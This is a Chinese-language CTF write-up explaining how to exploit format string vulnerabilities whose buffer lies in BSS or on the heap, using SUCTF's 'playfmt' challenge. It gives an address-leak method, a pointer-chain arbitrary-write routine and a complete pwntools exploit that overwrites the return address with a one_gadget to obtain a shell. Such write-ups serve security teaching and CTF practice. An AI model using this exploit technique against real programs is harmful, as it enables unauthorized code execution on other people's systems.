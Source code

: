 > 原文链接: https://www.anquanke.com//post/id/184717 


# 非栈上格式化字符串漏洞利用技巧


                                阅读量   
                                **369056**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/t0182c8f598734f6ce7.png)](https://p3.ssl.qhimg.com/t0182c8f598734f6ce7.png)



## 0x00前言

关于Linux栈上格式化字符串漏洞的利用网上已经有许多讲解了，但是非栈上的格式化字符串漏洞很少有人介绍。这里主要以上周末SUCTF比赛中playfmt题目为例，详细介绍一下bss段上或堆上的格式化字符串利用技巧。



## 0x01基础知识点

格式化字符串漏洞的具体原理就不再详细叙述，这里主要简单介绍一下格式化参数位置的计算和漏洞利用时常用的格式字符。

### <a class="reference-link" name="%E5%8F%82%E6%95%B0%E4%BD%8D%E7%BD%AE%E8%AE%A1%E7%AE%97"></a>参数位置计算

linux下32位程序是栈传参，从左到右参数顺序为`$esp+4,$esp+8,...`；因此`$esp+x`的位置应该是格式化第`x/4`个参数。

linux下64位程序是寄存器加栈传参，从左到右参数顺序为`$rdi,$rsi,$rdx,$rcx,$r8,$r9,$rsp+8,...`；因此`$rsp+x`的位置应该是格式化第`x/8+6`个参数。

### <a class="reference-link" name="%E5%B8%B8%E7%94%A8%E7%9A%84%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6"></a>常用的格式化字符

用于地址泄露的格式化字符有：`%x、%s、%p`等；

用于地址写的格式化字符：`%hhn`（写入一字节），`%hn`（写入两字节），`%n`（32位写四字节，64位写8字节）；

`%&lt; number&gt;$type`：直接作用第number个位置的参数，如：`%7$x`读第7个位置参数值，`%7$n`对第7个参数位置进行写。

`%&lt;number&gt;c`：输出number个字符，配合`%n`进行任意地址写，例如`"%`{``}`c%`{``}`$hhn".format(address,offset)`就是向`offset0`参数指向的地址最低位写成`address`。



## 0x02非栈上格式化字符串漏洞利用

​ 一般来说，栈上的格式化字符串漏洞利用步骤是先泄露地址，包括ELF程序地址和libc地址；然后将需要改写的GOT表地址直接传到栈上，同时利用`%c%n`的方法改写入`system或one_gadget`地址，最后就是劫持流程。但是对于BSS段或是堆上格式化字符串，无法直接将想要改写的地址指针放置在栈上，也就没办法实现任意地址写。下面以SUCTF中playfmt为例，介绍一下常用的非栈上格式化字符串漏洞的利用方法。

### <a class="reference-link" name="%E4%BE%8B%E9%A2%98"></a>例题

#### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E8%AF%B4%E6%98%8E"></a>题目说明

程序漏洞点比较明显，直接写了一个循环的`printf`格式化漏洞，而输入的数据是存储在`buf`指针上，`buf`则是位于bss段中地址为`0x0804B040`。

```
int do_fmt(void)
`{`
  int result; // eax

  while ( 1 )
  `{`
    read(0, buf, 0xC8u);
    result = strncmp(buf, "quit", 4u);
    if ( !result )
      break;
    printf(buf);
  `}`
  return result;
`}`
```

```
.bss:0804B040                 public buf
.bss:0804B040 ; char buf[200]
.bss:0804B040 buf             db 0C8h dup(?)    ; DATA XREF: do_fmt(void)+E↑o
```

查看一下程序的保护，可以发现开启了RELRO，也就是无法改写GOT表，所以思路就是直接修改栈上的返回地址，`return`的时候劫持流程。

[![](https://p2.ssl.qhimg.com/t017c34acbeff0cf636.png)](https://p2.ssl.qhimg.com/t017c34acbeff0cf636.png)

#### <a class="reference-link" name="%E6%B3%84%E6%BC%8F%E5%9C%B0%E5%9D%80"></a>泄漏地址

首先需要得到当前栈的地址和`libc`的基地址，这些地址可以很轻松的在栈上找到，其中`esp+0x18`存放了栈地址，`esp+0x20`存放了`libc`的地址，可以得到分别是第6个参数和第8个参数，直接传入`%6$p%8$p`即可得到栈地址和`libc`地址。

[![](https://p4.ssl.qhimg.com/t01c087c4f8898e82ef.png)](https://p4.ssl.qhimg.com/t01c087c4f8898e82ef.png)

#### <a class="reference-link" name="%E4%BB%BB%E6%84%8F%E5%9C%B0%E5%9D%80%E5%86%99"></a>任意地址写

这里主要需要解决的就是如何将要改写的地址放在栈上。实现任意地址写需要依赖栈上存在一个链式结构，如`0xffb5c308-&gt;0xffb5c328-&gt;0xffb5c358`，这三个地址都在栈上。

[![](https://p5.ssl.qhimg.com/t01cad7332c115def00.png)](https://p5.ssl.qhimg.com/t01cad7332c115def00.png)

下图是一个简单的栈地址空间图，`offset`表示格式化的参数位置。通过第`offset0`个参数，利用`%hhn`可以控制`address1`的最低位，再通过第`offset1`个参数，利用`%hhn`可以写`address2`的最低位；然后通过`offset0`参数，利用`%hhn`修改`address1`的最低位为`原始值+1`，再通过`offset1`参数，利用`%hhn`可以写`address2`的次低位；依次循环即可完全控制`address2`的值，再次利用`address1和address2`的链式结构，即可实现对`address2`地址空间的任意写。对应到上面显示的地址空间，`address0=0xffb5c308,offset0=0x18/4=6;address1=0xffb5c328,offset1=0x38/4=14;address2=0xffb5c358,offset2=0x68/4=26;`

[![](https://p1.ssl.qhimg.com/t01027399ee82efa5dd.png)](https://p1.ssl.qhimg.com/t01027399ee82efa5dd.png)

下面是地址写代码的实现，首先获取`address1`的最低位的原始值，然后依次写`address2`的各个字节。

```
def write_address(off0,off1,target_addr):
    io.sendline("%`{``}`$p".format(off1))
    io.recvuntil("0x")
    addr1 = int(io.recv(8),16)&amp;0xff
    io.recv()
    for i in range(4):
        io.sendline("%`{``}`c%`{``}`$hhn".format(addr1+i,off0))
        io.recv()
        io.sendline("%`{``}`c%`{``}`$hhn".format(target_addr&amp;0xff,off1))
        io.recv()        
        target_addr=target_addr&gt;&gt;8
    io.sendline("%`{``}`c%`{``}`$hhn".format(addr1,off0))
    io.recv()
```

效果图如下，可以看到`esp+0x68`的位置已经是栈上返回地址的存放位置（这是另一次的运行截图，栈地址有所变化）。

[![](https://p2.ssl.qhimg.com/t0105c380fdb851f839.png)](https://p2.ssl.qhimg.com/t0105c380fdb851f839.png)

再次运行`write_address`将`0xfff566cc`写上`one_gadget`地址（libc.address+ 0x5f065）。

[![](https://p0.ssl.qhimg.com/t0133d09aea01da40ed.png)](https://p0.ssl.qhimg.com/t0133d09aea01da40ed.png)

最后输入`quit`退出循环，执行`return result`时就能获取shell。

[![](https://p2.ssl.qhimg.com/t01386c11c815977e42.png)](https://p2.ssl.qhimg.com/t01386c11c815977e42.png)

### <a class="reference-link" name="EXP"></a>EXP

```
# coding=utf-8
from pwn import *
#io = remote('120.78.192.35', 9999)
io = process("./playfmt")
elf = ELF('./playfmt')
libc = ELF('/lib32/libc-2.23.so')
#context.log_level = 'DEBUG'
#gdb.attach(io,"b *0x0804889f")
io.recv()
io.sendline("%6$p%8$p")
io.recvuntil("0x")
stack_addr = int(io.recv(8),16)-0xffffd648+0xffffd610
io.recvuntil("0x")
libc.address = int(io.recv(8),16)-0xf7e41000+0xf7c91000
log.success("stack_addr:"+hex(stack_addr))
log.success("libc_addr:"+hex(libc.address))
io.recv()
offset0=0x18/4
offset1=0x38/4
offset2=0x68/4
def write_address(off0,off1,target_addr):
    io.sendline("%`{``}`$p".format(off1))
    io.recvuntil("0x")
    addr1 = int(io.recv(8),16)&amp;0xff
    io.recv()
    for i in range(4):
        io.sendline("%`{``}`c%`{``}`$hhn".format(addr1+i,off0))
        io.recv()
        io.sendline("%`{``}`c%`{``}`$hhn".format(target_addr&amp;0xff,off1))
        io.recv()        
        target_addr=target_addr&gt;&gt;8
    io.sendline("%`{``}`c%`{``}`$hhn".format(addr1,off0))
    io.recv()

one_gadget = libc.address+ 0x5f065
print(hex(one_gadget))
write_address(offset0,offset1,stack_addr+0x1c)
#gdb.attach(io,"b *0x0804889f")
write_address(offset1,offset2,one_gadget)
io.sendline("quit")
io.interactive()
```



## 0x03总结思考

这里简单总结一下上述漏洞利用的使用条件：

首先是需要一个循环触发格式化字符串漏洞的条件，上述的例题中直接存在循环触发漏洞的情况，如果实际情况只能单次触发，可以尝试能否劫持`__libc_csu_fini/malloc/free等`函数造成循环触发漏洞；

然后就是需要栈上存在单链表结构，64位程序需要三个节点地址，32位程序可能只需要两个节点（本地测试32位的地址可以通过%n一次性写入）；

最后需要在循环触发漏洞的期间，栈上使用到的地址空间不被破坏。
